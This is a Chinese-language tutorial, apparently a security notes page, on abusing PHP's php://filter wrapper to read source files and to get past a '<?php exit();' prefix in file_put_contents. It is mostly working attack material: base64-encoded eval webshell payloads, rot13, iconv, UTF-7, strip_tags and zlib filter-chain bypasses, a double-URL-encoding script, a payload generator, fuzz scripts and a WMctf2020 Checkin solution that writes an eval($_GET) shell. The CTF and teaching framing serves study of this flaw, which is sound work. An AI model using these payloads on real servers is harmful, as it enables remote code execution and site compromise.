



[TOC]


# php://filter利用手法

常见payload

`file=php://filter/read=convert.base64-encode/resource=index.php`


`php://filter/write=convert.base64-decode/resource=shell.php`


```bash
resource=<要过滤的数据流>     这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>         该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>    该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>        任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```


### 字符串过滤器

```bash
string.rot13  进行rot13转换
string.toupper  将字符全部大写
string.tolower  将字符全部小写
string.strip_tags 去除空字符、HTML 和 PHP 标记后的结果。功能类似于strip_tags()函数，若不想某些字符不被消除，后面跟上字符，可利用字符串或是数组两种方式。（自PHP 7.3.0起已弃用此功能。）
```


### 转换过滤器

```
convert.base64-encode
convert.base64-decode
```


### 压缩过滤器

```
zlib.deflate 压缩
zlib.inflate 解压
bzip2.compress
bzip2.decompress
```


### 加密过滤器


## 0x01 XXE中的使用

在XXE中，我们也可以将PHP等容易引发冲突的文件流用php://filter协议流处理一遍，这样就能有效规避特殊字符造成混乱。

如下，我们使用的是`php://filter/read=convert.base64-encode/resource=./xxe.php`


## 0x02 file_put_contents(\$filename,”<?php exit();”.$content);


### 1. base64-decode绕过exit


```php
<?php
$content = '<?php exit; ?>';
$content .= $_POST['txt'];
file_put_contents($_POST['filename'], $content);
```

`$content`在开头增加了exit过程，导致即使我们成功写入一句话，也执行不了（这个过程在实战中十分常见，通常出现在缓存、配置文件等等地方，不允许用户直接访问的文件，都会被加上if(!defined(xxx))exit;之类的限制）。那么这种情况下，如何绕过这个“死亡exit”？


我们即可使用 php://filter协议来施展魔法：**使用php://filter流的base64-decode方法，将`$content`解码，利用php base64_decode函数特性去除“死亡exit”。**


base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码。

所以，一个正常的base64_decode实际上可以理解为如下两个步骤：

```php
<?php
$_GET['txt'] = preg_replace('|[^a-z0-9A-Z+/]|s', '', $_GET['txt']);
base64_decode($_GET['txt']);
```


所以，当`$content`被加上了`<?php exit; ?>`以后，我们可以使用 php://filter/write=convert.base64-decode 来首先对其解码。在解码的过程中，**字符<、?、;、>、空格等一共有7个字符不符合base64编码的字符范围将被忽略，所以最终被解码的字符仅有“phpexit”和我们传入的其他字符。**

**“phpexit”一共7个字符，因为base64算法解码时是4个byte一组，所以给他增加1个“a”一共8个字符。这样，"phpexita"被正常解码，**而后面我们传入的webshell的base64内容也被正常解码。结果就是`<?php exit; ?>`没有了。


payload：

```bash
txt=aPD9waHAgZXZhbCgkX1BPU1RbJ3Bhc3MnXSk7Pz4=&filename=php://filter/write=convert.base64-decode/resource=shell.php
```





### 2. strip_tags+base64-decode组合利用


这个`<?php exit; ?>`实际上是什么？

实际上是一个XML标签，既然是XML标签，我们就可以利用strip_tags函数去除它，而php://filter刚好是支持这个方法的。


编写如下测试代码即可查看 php://filter/read=string.strip_tags/resource=php://input 的效果：

```
echo readfile('php://filter/read=string.strip_tags/resource=php://input');
```

[](https://www.leavesongs.com/content/uploadfile/201607/499a1469385895.png)

可见，`<?php exit; ?>`被去除了。但回到上面的题目，我们最终的目的是写入一个webshell，而写入的webshell也是php代码，如果使用strip_tags同样会被去除。


万幸的是，**php://filter允许使用多个过滤器，我们可以先将webshell用base64编码。在调用完成strip_tags后再进行base64-decode**。“死亡exit”在第一步被去除，而webshell在第二步被还原。


payload

```bash
txt=PD9waHAgZXZhbCgkX1BPU1RbJ3Bhc3MnXSk7Pz4=&filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php
```


### 3. rot13

除此之外，我们还可以**利用rot13编码独立完成任务。原理和上面类似，核心是将“死亡exit”去除。`<?php exit; ?>`在经过rot13编码后会变成`<?cuc rkvg; ?>`**，在PHP不开启short_open_tag时，php不认识这个字符串，当然也就不会执行了：


payload

```
php://filter/write=string.rot13/resource=shell.php
```


这种方法是需要服务器**没有开启短标签**的时候才可以使用（默认情况是没开启的：php.ini中的short_open_tag）


### 4. 加入不存在的过滤器

上面的场景中，考虑如下的payload：

`php://filter/write=string.strip_tags|sssss|convert.base64-decode/resource=shell.php`


其中ssss过滤器不存在，但是不妨碍我们写入shell，此处php只会报一个warning，并不会结束运行。




## 0x03 file_put_contents(\$a,”<?php exit();”.$a);

```php
file_put_contents($a,"<?php exit();".$a);
```


### 1. base64

`$a = php://filter/write=convert.base64-decode|PD9waHAgcGhwaW5mbygpOz8+|/resource=Cyc1e.php`


**php://filter面对不可用的规则是报个Warning，然后跳过继续执行的（不会退出）**，所以按理说这样构造是**“很完美”**的，我们看下base-decode哪些字符👇

```
php//filter/write=convertbase64decodePD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php
```

而默认情况下base64编码是以 `=` 作为结尾的，所以**正常解码的时候到了 `=` 就解码结束了**，即使我们构造payload的时候不用`write=`，但是在最后获取文件名的时候`resource=`中的 `=` 过不掉，所以导致过滤器解码失败，**从而报错（不过还是会创建文件的，内容由于解码过程出错了，就都丢弃了）**


### 2. rot13


rot13编码就不存在base64的问题，所以和前面base64构造的思路一样👇

```
$a = php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=Cyc1e.php
```


和前面提到的一样，这种方法是需要服务器**没有开启短标签**的时候才可以使用（默认情况是没开启的：php.ini中的short_open_tag（再补充一下，linux下默认是没有开启的））


### 3. iconv字符编码转换

这种方法由于之前没有见过，所以感觉这波操作比我的亚索还要秀~，想法是一样的，**通过字符转换把`<?php exit();`转成不能解析的，这里采用的是UCS-2或者UCS-4编码方式（当然还有很多，比如utf-8和utf-7），而我们构造的转成可正常解析的**


官方文档中支持的

```
UCS-4
UCS-4BE
UCS-4LE
UCS-2
UCS-2BE
UCS-2LE
UTF-32
UTF-32BE
UTF-32LE
UTF-16
UTF-16BE
UTF-16LE
UTF-7
UTF7-IMAP
UTF-8
ASCII
EUC-JP
SJIS
eucJP-win
SJIS-win
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac (alias: MacJapanese)
SJIS-Mobile#DOCOMO (alias: SJIS-DOCOMO)
SJIS-Mobile#KDDI (alias: SJIS-KDDI)
SJIS-Mobile#SOFTBANK (alias: SJIS-SOFTBANK)
UTF-8-Mobile#DOCOMO (alias: UTF-8-DOCOMO)
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B (alias: UTF-8-KDDI)
UTF-8-Mobile#SOFTBANK (alias: UTF-8-SOFTBANK)
ISO-2022-JP-MOBILE#KDDI (alias: ISO-2022-JP-KDDI)
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1
ISO-8859-2
ISO-8859-3
ISO-8859-4
ISO-8859-5
ISO-8859-6
ISO-8859-7
ISO-8859-8
ISO-8859-9
ISO-8859-10
ISO-8859-13
ISO-8859-14
ISO-8859-15
ISO-8859-16
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES (alias: HTML)
7bit
8bit
EUC-CN
CP936
GB18030
HZ
EUC-TW
CP950
BIG-5
EUC-KR
UHC (alias: CP949)
ISO-2022-KR
Windows-1251 (alias: CP1251)
Windows-1252 (alias: CP1252)
CP866 (alias: IBM866)
KOI8-R
KOI8-U
ArmSCII-8 (alias: ArmSCII8)
```


**通过UCS-2或者UCS-4的方式，对目标字符串进行2/4位一反转，也就是说构造的需要是UCS-2或UCS-4中2或者4的倍数，不然不能进行反转**


构造payload

```php
echo iconv("UCS-4LE","UCS-4BE",'aa<?php phpinfo();?>');
?<aa phpiphp(ofn>?;)
```


payload

```php
$a='php://filter//convert.iconv.UCS-2LE.UCS-2BE|?<hp phpipfn(o;)>?/resource=Cyc1e.php';

$a='php://filter//convert.iconv.UCS-4LE.UCS-4BE|xxx?<aa phpiphp(ofn>?;)/resource=Cyc1e.php';
#由于是4位一反转，所以需要保证?<aa phpiphp(ofn>?;)之前字符个数是4的倍数，所以需要补3个字符
```


### 4. UCS-2组合rot13

```php
$a = 'php://filter/write=convert.iconv.UCS-2LE.UCS-2BE|string.rot13|x?<uc cucvcsa(b;)>?/resource=drom.php'; #同样需要补位，这里补了一个x
```


基础poc：

```php
<?php

class Generate{
    public $prefix = "<?php exit();";
    public $poc = "<?php phpinfo();?>";
    public $base = "php://filter/write=";
    public $end = "/resource=drom.php";

    public $string = [
        'rot13' => 'str_rot13',
        'toupper' => 'strtoupper',
        'tolower' => 'strtolower',
        'strip_tags' => 'strip_tags',
    ];

    public $zlib = [
        'deflate',
        'inflate'
    ];

    public $bzip2 = [
        'compress',
        'decompress'
    ];

    public $convert = [
        'UCS-4',
        'UCS-4BE',
        'UCS-2' ,
        'UCS-2BE',
        'UCS-2LE',
        'UTF-32',
        'UTF-32BE',
        'UTF-32LE',
        'UTF-16',
        'UTF-16BE',
        'UTF-16LE',
        'UTF-7',
        'UTF7-IMAP',
        'UTF-8',
        'ASCII',
        'EUC-JP',
        'SJIS',
        'eucJP-win',
        'SJIS-win',
        'ISO-2022-JP',
        'ISO-2022-JP-MS',
        'CP932',
        'CP51932',
        'SJIS-mac',
        'SJIS-Mobile#DOCOMO',
        'SJIS-Mobile#KDDI',
        'SJIS-Mobile#SOFTBANK',
        'UTF-8-Mobile#DOCOMO',
        'UTF-8-Mobile#KDDI-A',
        'UTF-8-Mobile#KDDI-B',
        'UTF-8-Mobile#SOFTBANK',
        'ISO-2022-JP-MOBILE#KDDI',
        'JIS',
        'JIS-ms',
        'CP50220',
        'CP50220raw',
        'CP50221',
        'CP50222',
        'ISO-8859-1',
        'ISO-8859-2',
        'ISO-8859-3',
        'ISO-8859-4',
        'ISO-8859-5',
        'ISO-8859-6',
        'ISO-8859-7',
        'ISO-8859-8',
        'ISO-8859-9',
        'ISO-8859-10',
        'ISO-8859-13',
        'ISO-8859-14',
        'ISO-8859-15',
        'ISO-8859-16',
        'byte2be',
        'byte2le',
        'byte4be',
        'byte4le',
        'BASE64',
        'HTML-ENTITIES',
        '7bit',
        '8bit',
        'EUC-CN',
        'CP936',
        'GB18030',
        'HZ',
        'EUC-TW',
        'CP950',
        'BIG-5',
        'EUC-KR',
        'UHC',
        'ISO-2022-KR',
        'Windows-1251',
        'Windows-1252',
        'CP866',
        'KOI8-R',
        'KOI8-U',
        'ArmSCII-8',
    ];

    public $poc_stack = [
        'convert' => [
            'from' => 'UCS-2LE',
            'to' => 'UCS-2BE'
        ],

        'string' => 'rot13'
    ];

    public function concatConvert($convfrom,$convto){
        return 'convert.iconv.'.$convfrom.'.'.$convto.'|';
    }

    public function concatString($stringop){
        return 'string'.'.'.$stringop.'|';
    }

    public function convert($convfrom,$convto,$poc){
        return iconv($convfrom,$convto,$poc);
    }


    public function string($stringop,$poc)
    {
        return $this->string[$stringop]($poc);
    }

    public function Run()
    {
        $result = "";
        $result .= $this->prefix;
        $result .= $this->base;
        $result_poc = "";

        foreach (array_keys($this->poc_stack) as $item) {
            if($item == 'string'){
                $result .= $this->concatString($this->poc_stack[$item]);
                $this->poc = $this->string($this->poc_stack[$item],$this->poc);
            }elseif ($item=='convert'){
                $result .= $this->concatConvert($this->poc_stack[$item]['from'],$this->poc_stack[$item]['to']);
                $this->poc = $this->convert($this->poc_stack[$item]['from'],$this->poc_stack[$item]['to'],$this->poc);

            }elseif ($item=='$zlib'){
                ;
            }
        }

        $tmp = $result;

        echo "length:",strlen($tmp),"\n";
        $padding = "";

        switch ($this->poc_stack['convert']['from']){
            case 'UCS-2LE' or 'UCS-2BE':
                $paddingnum = strlen($tmp)%2;
                if($paddingnum !== 0){
                    $padding = str_repeat('a',$paddingnum);
                }
                break;
            default:
                ;
        }
        
        $result .= $padding;
        $result .= $this->poc;
        $result .= $this->end;
        echo substr($result,strlen($this->prefix)),"\n";
    }
}


$a = new Generate();
$a->Run();
```


### 5. utf8编码转为utf7配合base64

前面介绍单独用base64编码是不可行的，那么来一套组合拳是否可以呢？答案肯定是可以的，这里感谢大兄弟[郁离歌](http://yulige.top/)提供的方法，通过iconv将utf8编码转为utf7编码，从而把 **=** 给转了，就不会影响到base64的解码了

```php
$a='php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode|AAPD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php'; #base64编码前补了AA，原理一样，补齐位数
```


### 6. strip_tags配合base64

我们来用一下strip_tags方法&&base64的组合，不过之前构造的这种方法有局限性，要求服务器是linux系统，所以之前没写。因为前面介绍过strip_tags去除的是完整的标签以及内容，而base64要求中间不能出现 `=` 所以把他们二者组合起来

```php
$a = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8+.php';
```


理解起来也很简单，在文件名前加上`?>`把`<?php exit();`闭合，同时 = 也在闭合标签之间，所以利用strip_tags处理的时候直接把`<?php ...... ?>`内的所有内容都删除了，然后对剩下的部分，也就是`PD9waHAgcGhwaW5mbygpOz8+.php`进行base64解码，为什么说这种构造Windows不行呢，因为Windows不支持文件名中有`?`、`>`这类字符


### **7. 二次编码特性配合过滤器**


查看伪协议处理的源码

```c
static void php_stream_apply_filter_list(php_stream *stream, char *filterlist, int read_chain, int write_chain) /* {{{ */
{
	char *p, *token = NULL;
	php_stream_filter *temp_filter;

	p = php_strtok_r(filterlist, "|", &token);
	while (p) {
		php_url_decode(p, strlen(p));#👈对过滤器进行了一次urldecode
		if (read_chain) {
			if ((temp_filter = php_stream_filter_create(p, NULL, php_stream_is_persistent(stream)))) {
				php_stream_filter_append(&stream->readfilters, temp_filter);
			} else {
				php_error_docref(NULL, E_WARNING, "Unable to create filter (%s)", p);
			}
		}
		if (write_chain) {
			if ((temp_filter = php_stream_filter_create(p, NULL, php_stream_is_persistent(stream)))) {
				php_stream_filter_append(&stream->writefilters, temp_filter);
			} else {
				php_error_docref(NULL, E_WARNING, "Unable to create filter (%s)", p);
			}
		}
		p = php_strtok_r(NULL, "|", &token);
	}
}
```

file_put_contents中可以调用伪协议，而**伪协议处理时会对过滤器urldecode一次，所以是可以利用二次编码绕过的**，不过我们在服务端ban了%25（用%25太简单了）所以测试%25被ban后就可以写个脚本跑一下字符，构造一些过滤的字符就可以利用正常的姿势绕过。知道可以用二次编码绕过了，可以简单构造一下参见的payload即可，可参考我之前写的文章中的一些payload


url二次编码脚本

```php
<?php
$char = 'r'; #构造r的二次编码
for ($ascii1 = 0; $ascii1 < 256; $ascii1++) {
	for ($ascii2 = 0; $ascii2 < 256; $ascii2++) {
		$aaa = '%'.$ascii1.'%'.$ascii2;
		if(urldecode(urldecode($aaa)) == $char){
			echo $char.': '.$aaa;
			echo "\n";
		}
	}
}
?>
```


使用burp也是一样的。


### 8. zlib.deflate与zlib.inflate结合其他过滤器

- zlib.deflate与zlib.inflate结合之后内容肯定不变，我们只需要在其中加入别的过滤器，即可
- 在wmctf中，zlib.deflate与zlib.inflate中间加入string.tolower过滤器会使<?php exit(); 变成<?php@�xit()无法解析。


尝试脚本

```php
<?php
$a = [
    'string.toupper',
    'string.tolower',
    'string.strip_tags',
    'convert.base64-encode',
    'convert.base64-decode',
    'ASCII',
    'EUC-JP',
    'SJIS',
    'eucJP-win',
    'SJIS-win',
    'ISO-2022-JP',
    'ISO-2022-JP-MS',
    'CP932',
    'CP51932',
    'SJIS-mac',
    'SJIS-Mobile#DOCOMO',
    'SJIS-Mobile#KDDI',
    'SJIS-Mobile#SOFTBANK',
    'ISO-2022-JP-MOBILE#KDDI',
    'JIS',
    'JIS-ms',
    'CP50220',
    'CP50220raw',
    'CP50221',
    'CP50222',
    'ISO-8859-1',
    'ISO-8859-2',
    'ISO-8859-3',
    'ISO-8859-4',
    'ISO-8859-5',
    'ISO-8859-6',
    'ISO-8859-7',
    'ISO-8859-8',
    'ISO-8859-9',
    'ISO-8859-10',
    'ISO-8859-13',
    'ISO-8859-14',
    'ISO-8859-15',
    'ISO-8859-16',
    'byte2be',
    'byte2le',
    'byte4be',
    'byte4le',
    'BASE64',
    'HTML-ENTITIES',
    '7bit',
    '8bit',
    'EUC-CN',
    'CP936',
    'GB18030',
    'HZ',
    'EUC-TW',
    'CP950',
    'BIG-5',
    'EUC-KR',
    'UHC',
    'ISO-2022-KR',
    'Windows-1251',
    'Windows-1252',
    'CP866',
    'KOI8-R',
    'KOI8-U',
    'ArmSCII-8',
];
@mkdir('./test');
@chdir('./test');

foreach ($a as $item) {
    $content = 'php://filter/zlib.deflate|' . $item . '|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=Cyc1e'.$item.'.php';
    file_put_contents($content, '<?php exit();' . $content);
}

```


## 例题：WMctf2020 Checkin

```php
<?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/' . md5($_SERVER['HTTP_X_REAL_IP']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    echo $content;
    file_put_contents($content,'<?php exit();'.$content);
}
```

### 方法一

- 利用二次编码绕过

- ```
  content=php://filter/write=string.%7%32ot13|%3C?cuc%20cucvasb();?%3E/resource=drom.php
  ```


### 方法二

- 使用phpfuzz过滤器脚本看看哪些过滤器能用

- ```
  string.toupper
  string.tolower
  string.strip_tags
  zlib.deflate
  zlib.inflate
  bzip2.compress
  bzip2.decompress
  ASCII
  EUC-JP
  SJIS
  eucJP-win
  SJIS-win
  ISO-2022-JP
  ISO-2022-JP-MS
  CP932
  CP51932
  SJIS-mac
  SJIS-Mobile#DOCOMO
  SJIS-Mobile#KDDI
  SJIS-Mobile#SOFTBANK
  ISO-2022-JP-MOBILE#KDDI
  JIS
  JIS-ms
  CP50220
  CP50220raw
  CP50221
  CP50222
  ISO-8859-1
  ISO-8859-2
  ISO-8859-3
  ISO-8859-4
  ISO-8859-5
  ISO-8859-6
  ISO-8859-7
  ISO-8859-8
  ISO-8859-9
  ISO-8859-10
  ISO-8859-13
  ISO-8859-14
  ISO-8859-15
  ISO-8859-16
  byte2be
  byte2le
  byte4be
  byte4le
  HTML-ENTITIES
  7bit
  8bit
  EUC-CN
  CP936
  GB18030
  HZ
  EUC-TW
  CP950
  BIG-5
  EUC-KR
  UHC
  ISO-2022-KR
  Windows-1251
  Windows-1252
  CP866
  KOI8-R
  KOI8-U
  ArmSCII-8
  ```


- 最好用的应该就是`zlib`的`zlib.deflate`和`zlib.inflate`，组合使用压缩后再解压后内容肯定不变

- 这种方法就需要将前面的标签闭合，闭合后如果能够直接干掉exit最好，如果不行就只能用string.strip_tags过滤器再进行过滤

- 可以在中间遍历一下剩下的几个过滤器，看看中间进行什么操作会影响后续inflate的内容，简单遍历一下可以发现中间插入string.tolower转后会把空格和exit处理了就可以绕过exit

  

  

- 别的过滤器好像都没有变


## fuzz辅助脚本编写


### 过滤器字典：

```
string.rot13
string.toupper
string.tolower
string.strip_tags 
convert.base64-encode
convert.base64-decode
zlib.deflate
zlib.inflate
bzip2.compress
bzip2.decompress
convert.base64-encode
convert.base64-decode
convert.quoted-printable-encode
convert.quoted-printable-decode
UCS-4
UCS-4BE
UCS-4LE
UCS-2
UCS-2BE
UCS-2LE
UTF-32
UTF-32BE
UTF-32LE
UTF-16
UTF-16BE
UTF-16LE
UTF-7
UTF7-IMAP
UTF-8
ASCII
EUC-JP
SJIS
eucJP-win
SJIS-win
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac
SJIS-Mobile#DOCOMO
SJIS-Mobile#KDDI
SJIS-Mobile#SOFTBANK
UTF-8-Mobile#DOCOMO
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B
UTF-8-Mobile#SOFTBANK
ISO-2022-JP-MOBILE#KDDI
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1
ISO-8859-2
ISO-8859-3
ISO-8859-4
ISO-8859-5
ISO-8859-6
ISO-8859-7
ISO-8859-8
ISO-8859-9
ISO-8859-10
ISO-8859-13
ISO-8859-14
ISO-8859-15
ISO-8859-16
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES
7bit
8bit
EUC-CN
CP936
GB18030
HZ
EUC-TW
CP950
BIG-5
EUC-KR
UHC
ISO-2022-KR
Windows-1251
Windows-1252
CP866
KOI8-R
KOI8-U
ArmSCII-8
```


### phpfuzz过滤器

```php
<?php
$a = [
    'string.rot13',
    'string.toupper',
    'string.tolower',
    'string.strip_tags',
    'convert.base64-encode',
    'convert.base64-decode',
	  'convert.quoted-printable-encode',
	  'convert.quoted-printable-decode',
    'zlib.deflate',
    'zlib.inflate',
    'bzip2.compress',
    'bzip2.decompress',
    'UCS-4',
    'UCS-4BE',
    'UCS-2' ,
    'UCS-2BE',
    'UCS-2LE',
    'UTF-32',
    'UTF-32BE',
    'UTF-32LE',
    'UTF-16',
    'UTF-16BE',
    'UTF-16LE',
    'UTF-7',
    'UTF7-IMAP',
    'UTF-8',
    'ASCII',
    'EUC-JP',
    'SJIS',
    'eucJP-win',
    'SJIS-win',
    'ISO-2022-JP',
    'ISO-2022-JP-MS',
    'CP932',
    'CP51932',
    'SJIS-mac',
    'SJIS-Mobile#DOCOMO',
    'SJIS-Mobile#KDDI',
    'SJIS-Mobile#SOFTBANK',
    'UTF-8-Mobile#DOCOMO',
    'UTF-8-Mobile#KDDI-A',
    'UTF-8-Mobile#KDDI-B',
    'UTF-8-Mobile#SOFTBANK',
    'ISO-2022-JP-MOBILE#KDDI',
    'JIS',
    'JIS-ms',
    'CP50220',
    'CP50220raw',
    'CP50221',
    'CP50222',
    'ISO-8859-1',
    'ISO-8859-2',
    'ISO-8859-3',
    'ISO-8859-4',
    'ISO-8859-5',
    'ISO-8859-6',
    'ISO-8859-7',
    'ISO-8859-8',
    'ISO-8859-9',
    'ISO-8859-10',
    'ISO-8859-13',
    'ISO-8859-14',
    'ISO-8859-15',
    'ISO-8859-16',
    'byte2be',
    'byte2le',
    'byte4be',
    'byte4le',
    'BASE64',
    'HTML-ENTITIES',
    '7bit',
    '8bit',
    'EUC-CN',
    'CP936',
    'GB18030',
    'HZ',
    'EUC-TW',
    'CP950',
    'BIG-5',
    'EUC-KR',
    'UHC',
    'ISO-2022-KR',
    'Windows-1251',
    'Windows-1252',
    'CP866',
    'KOI8-R',
    'KOI8-U',
    'ArmSCII-8',
];
foreach ($a as $item) {
    if(!preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$item))
        echo $item,"\n";
}
```


### poc生成脚本：

```php
<?php

class Generate{
    public $prefix = "<?php exit();";
    public $poc = "<?php phpinfo();?>";
    public $base = "php://filter/write=";
    public $end = "/resource=drom.php";

    public $string = [
        'rot13' => 'str_rot13',
        'toupper' => 'strtoupper',
        'tolower' => 'strtolower',
        'strip_tags' => 'strip_tags',
    ];

    public $zlib = [
        'deflate',
        'inflate'
    ];

    public $bzip2 = [
        'compress',
        'decompress'
    ];

    public $convert = [
        'UCS-4',
        'UCS-4BE',
        'UCS-2' ,
        'UCS-2BE',
        'UCS-2LE',
        'UTF-32',
        'UTF-32BE',
        'UTF-32LE',
        'UTF-16',
        'UTF-16BE',
        'UTF-16LE',
        'UTF-7',
        'UTF7-IMAP',
        'UTF-8',
        'ASCII',
        'EUC-JP',
        'SJIS',
        'eucJP-win',
        'SJIS-win',
        'ISO-2022-JP',
        'ISO-2022-JP-MS',
        'CP932',
        'CP51932',
        'SJIS-mac',
        'SJIS-Mobile#DOCOMO',
        'SJIS-Mobile#KDDI',
        'SJIS-Mobile#SOFTBANK',
        'UTF-8-Mobile#DOCOMO',
        'UTF-8-Mobile#KDDI-A',
        'UTF-8-Mobile#KDDI-B',
        'UTF-8-Mobile#SOFTBANK',
        'ISO-2022-JP-MOBILE#KDDI',
        'JIS',
        'JIS-ms',
        'CP50220',
        'CP50220raw',
        'CP50221',
        'CP50222',
        'ISO-8859-1',
        'ISO-8859-2',
        'ISO-8859-3',
        'ISO-8859-4',
        'ISO-8859-5',
        'ISO-8859-6',
        'ISO-8859-7',
        'ISO-8859-8',
        'ISO-8859-9',
        'ISO-8859-10',
        'ISO-8859-13',
        'ISO-8859-14',
        'ISO-8859-15',
        'ISO-8859-16',
        'byte2be',
        'byte2le',
        'byte4be',
        'byte4le',
        'BASE64',
        'HTML-ENTITIES',
        '7bit',
        '8bit',
        'EUC-CN',
        'CP936',
        'GB18030',
        'HZ',
        'EUC-TW',
        'CP950',
        'BIG-5',
        'EUC-KR',
        'UHC',
        'ISO-2022-KR',
        'Windows-1251',
        'Windows-1252',
        'CP866',
        'KOI8-R',
        'KOI8-U',
        'ArmSCII-8',
    ];

    public $poc_stack = [
        'convert' => [
            'from' => 'UCS-2LE',
            'to' => 'UCS-2BE'
        ],

        'string' => 'rot13'
    ];

    public function concatConvert($convfrom,$convto){
        return 'convert.iconv.'.$convfrom.'.'.$convto.'|';
    }

    public function concatString($stringop){
        return 'string'.'.'.$stringop.'|';
    }

    public function convert($convfrom,$convto,$poc){
        return iconv($convfrom,$convto,$poc);
    }


    public function string($stringop,$poc)
    {
        return $this->string[$stringop]($poc);
    }

    public function Run()
    {
        $result = "";
        $result .= $this->prefix;
        $result .= $this->base;
        $result_poc = "";

        foreach (array_keys($this->poc_stack) as $item) {
            if($item == 'string'){
                $result .= $this->concatString($this->poc_stack[$item]);
                $this->poc = $this->string($this->poc_stack[$item],$this->poc);
            }elseif ($item=='convert'){
                $result .= $this->concatConvert($this->poc_stack[$item]['from'],$this->poc_stack[$item]['to']);
                $this->poc = $this->convert($this->poc_stack[$item]['from'],$this->poc_stack[$item]['to'],$this->poc);

            }elseif ($item=='$zlib'){
                ;
            }
        }

        $tmp = $result;

        echo "length:",strlen($tmp),"\n";
        $padding = "";

        switch ($this->poc_stack['convert']['from']){
            case 'UCS-2LE' or 'UCS-2BE':
                $paddingnum = strlen($tmp)%2;
                if($paddingnum !== 0){
                    $padding = str_repeat('a',$paddingnum);
                }
                break;
            default:
                ;
        }
        
        $result .= $padding;
        $result .= $this->poc;
        $result .= $this->end;
        echo substr($result,strlen($this->prefix)),"\n";
    }
}


$a = new Generate();
$a->Run();
```


### zlib.deflate与zlib.inflate

```php
<?php
$a = [
    'string.toupper',
    'string.tolower',
    'string.strip_tags',
    'convert.base64-encode',
    'convert.base64-decode',
    'ASCII',
    'EUC-JP',
    'SJIS',
    'eucJP-win',
    'SJIS-win',
    'ISO-2022-JP',
    'ISO-2022-JP-MS',
    'CP932',
    'CP51932',
    'SJIS-mac',
    'SJIS-Mobile#DOCOMO',
    'SJIS-Mobile#KDDI',
    'SJIS-Mobile#SOFTBANK',
